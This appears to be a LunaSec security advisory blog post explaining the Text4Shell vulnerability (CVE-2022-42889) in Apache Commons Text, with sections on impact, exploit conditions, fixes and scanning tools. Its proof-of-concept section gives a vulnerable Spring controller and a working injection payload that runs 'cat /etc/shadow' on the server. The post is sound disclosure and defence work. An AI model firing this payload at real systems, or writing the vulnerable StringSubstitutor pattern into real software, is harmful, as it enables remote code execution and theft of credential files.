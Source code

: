 ```yaml
---
title: "Text4Shell: A Vulnerability in Java library Apache Commons Text (CVE-2022-42889, Act4Shell)"
description: "LunaSec Security Researchers provide a detailed analysis of the vulnerability in Apache Commons Text library (CVE-2022-42889, aka Text4Shell or Act4Shell) and how it can be exploited to execute arbitrary code on the victim's machine."
slug: text4shell-java-rce-cve-2022-42889
date: 2022-10-19T23:30:00.000Z
keywords: [cybersecurity, strategy, java, action, guide, exploit]
tags: [security, appsec, devsecops, cicd, sdlc, guides]
authors: [free]
---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

<head>
  <meta property="article:modified_time" content="2022-10-20T23:00:00.000Z" />
</head>

<img alt="Text4Shell Logo" src="https://www.lunasec.io/docs/img/blog/text4shell_small.png" style={
  {marginLeft: 'auto', marginRight: 'auto', paddingLeft: '20px', paddingRight: '20px'}
}/>

## What is Text4Shell?

Text4Shell is a vulnerability in the Java library Apache Commons Text. This vulnerability, in specific conditions,
allows an attacker to execute arbitrary code on the victim's machine (Remote Code Execution or "RCE").
The vulnerability was discovered by [Alvaro Muñoz (aka pwntester)](https://twitter.com/pwntester) and
[announced publicly](https://lists.apache.org/thread/n2bd4vdsgkqh2tm14l1wyc3jyol7s1om) on October 13th

Text4Shell was officially assigned the [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889) identifier.

<!--truncate-->

Note: While the vulnerability is also known as "Act4Shell", we'll be referring to it as "Text4Shell" in this article.

## Who is impacted?

Applications that use the Apache Commons Text library (or that depend on libraries using it) are impacted.

While the name Text4Shell may suggest that this issue is as widespread
[Log4Shell vulnerability](https://lunasec.io/docs/blog/log4shell-cve-2021-44228/), that is fortunately not the case.

Text4Shell is more similar to [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/) in that
the conditions for exploitation require a vulnerable pattern in application code in addition to a vulnerable version of
Apache Commons Text being present.

If only the vulnerable version of Apache Commons Text is present, but the vulnerable pattern doesn't also exist, the
Text4Shell cannot be exploited.

We'll go into more detail about that in the next section, but we believe that the real-world impact of Text4Shell to be
limited compared with Log4Shell.

### Should you patch?

The vulnerable configuration is very uncommon in the public source code of that we've reviewed, which means that
you're _rather unlikely_ to be vulnerable to Text4Shell even if you're using a vulnerable version of Apache Commons Text.

That said, the devil is in the details, and we believe that you should either:
- Review your code for usages of `StringSubstitutor.createInterpolator()` and
    `StringLookupFactory.INSTANCE.interpolatorStringLookup().lookup()` to verify
    that any calls aren't exploitable, or
- You should upgrade to version 1.10+ of Apache Commons Text.

Even though it's unlikely that you're vulnerable, this is an RCE vulnerability. And, not only is it an RCE, but it's
one that's even easier to exploit that Log4Shell was (there is no network round trip to
[fetch a Java bytecode](https://www.lunasec.io/docs/blog/log4shell-live-patch-technical/) from an LDAP service).

If you'd like to check if you're vulnerable to Text4Shell (including if new bypasses are found), you can
[configure LunaTrace for free](https://lunatrace.lunasec.io/) to run in your CI and get alerted automatically.

For additional ways to detect Text4Shell, we'll be providing links to other resources at the bottom of this article too.

:::info
If you find any additional attack vectors, we'd encourage you to open a
[Pull Request against this blog post](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2022-10-19-text4shell-cve-2022-42889.mdx)
directly! You may also let us know via [Twitter](https://twitter.com/LunaSecIO) and [email](mailto:security@lunasec.io) too.
:::

### Exploit Conditions

**All** the following conditions must be met for Text4Shell to be exploitable:

- Apache Commons Text version 1.5 through 1.9 are vulnerable
    ([version 1.10](https://commons.apache.org/proper/commons-text/changes-report.html#a1.10.0) includes a fix),
- The application must use `StringSubstitutor` in a vulnerable configuration (see POC code below),
- The application must accept arbitrary, attacker controlled input for exploitation to be possible,
- All versions of the JDK are vulnerable (early reports suggest JDK versions 15+ are safe, but new POCs have been
    released that work on JDK 15+).

### Proof-of-Concept Code

There are a few excellent resources available for this vulnerability already, including the original
[GitHub Advisory](https://securitylab.github.com/advisories/GHSL-2022-018_Apache_Commons_Text/) and a
[Docker POC on GitHub](https://github.com/karthikuj/cve-2022-42889-text4shell-docker), and this post will just be
consolidating the information in those resources together.

The following code snippet is a proof-of-concept that demonstrates how the vulnerability can be exploited.

```typescript
/**
* Example of how to exploit Text4Shell vulnerability (CVE-2022-42889).
* A simple Java web server application using the Spring framework based on:
* https://github.com/karthikuj/cve-2022-42889-text4shell-docker
*/

// Import the vulnerable class from Apache Commons Text
import org.apache.commons.text.StringSubstitutor;

import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping("text4shell")
public class ExampleVulnerableText4ShellController {

  @RequestMapping(value = "/vulnerable", method = RequestMethod.GET)
  @ResponseBody
  public String vulnerable(
    // The default value of this parameter is used to demonstrate the vulnerability
    @RequestParam(defaultValue="${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}")
    String requestInput
  ) {
    // This is the vulnerable method imported from Apache Commons Text.
    StringSubstitutor interpolator = StringSubstitutor.createInterpolator();

    // This line triggers the exploit
    interpolator.replace(requestInput);

    return "an empty response";
  }
}
```

### Exploit Steps

The following steps demonstrate how the vulnerability can be exploited:

1. The attacker sends a request to the vulnerable endpoint with the following payload:
    `http://localhost:8080/vulnerable?requestInput=${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}`
2. The request parameter, `requestInput`, `${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}`, is passed to the
    `StringSubstitutor` class, which is vulnerable to the exploit.
3. The `StringSubstitutor.replace()` method executes the payload which runs `cat /etc/shadow` and returns the contents of the shadow file.
4. At this point, the attacker can execute any command they want here, not just `cat /etc/shadow`. This is just an example
    of how the exploit can be used to execute arbitrary code on the victim's machine.

### Research Notes

We've done a deep dive into testing vulnerable configurations
([our notes + test env](https://github.com/lunasec-io/cve-2022-42889-text4shell-docker)),
and we don't believe that more common configurations involving `setEnableSubstitutionInVariables(true)` or
`(new StringSubstitor(values)).replace(attackerInput)` can lead to exploitation because they don't by default interpret
`${script:*}` calls.

## How to fix Text4Shell

The simplest fix is to upgrade to Apache Commons Text
[version 1.10](https://github.com/karthikuj/cve-2022-42889-text4shell-docker) or later.

If you're unable to upgrade, please
[join us on Discord](https://discord.gg/2EbHdAR5w7), where
we can help you find a workaround.

For help determining if you're affected by this vulnerability, or to determine if you're using Vendor software that may
be vulnerable, please see the resources below to help you scan for Text4Shell across your stack.

### Additional Resources

- [JFrog Text4Shell CLI Scanner](https://github.com/jfrog/text4shell-tools)
- [Grype](https://github.com/anchore/grype)
- [LunaTrace by LunaSec](https://lunatrace.lunasec.io/)

## Stay Informed

If you'd like to stay up to date on the latest vulnerabilities, you can join our mailing list below or follow us on
[Twitter](https://twitter.com/lunasecio).


<ContactForm/>

### Have Questions?

You're welcome to reach out to us if you need help by
[joining our Discord](https://discord.gg/2EbHdAR5w7) or by
[emailing us](mailto:contact+text4shell@lunasec.io). You can also
[edit this post on GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2022-10-19-text4shell-cve-2022-42889.mdx)
to suggest changes.

## References

First of all, we just want to say thank you to [Alvaro Muñoz (aka pwntester)](https://twitter.com/pwntester) and
the Apache Commons Text team for their work on resolving this security issue.

- [Apache Commons Text Security Advisory](https://commons.apache.org/proper/commons-text/security.html)
- [Rapid7 Writeup](https://www.rapid7.com/blog/post/2022/10/17/cve-2022-42889-keep-calm-and-stop-saying-4shell/?utm_campaign=sm-blog&utm_source=lunasec)
- [TheRecord Writeup](https://therecord.media/experts-downplay-reach-of-apache-bug-text4shell/)

### Updates

1. 2022-10-19 @ 4pm PDT: Initial post.
2. 2022-10-19 @ 4:30pm PDT: Fixed typos and added more resources.
3. 2022-10-19 @ 5pm PDT: Adding logo.
4. 2022-10-19 @ 6:35pm PDT: Updating text in Impacted section.
5. 2022-10-19 @ 9pm PDT: Fixed broken example code. Added clarifying section about what is required for exploitation.
6. 2022-10-20 @ 5pm PDT: Added research notes and clarified language.
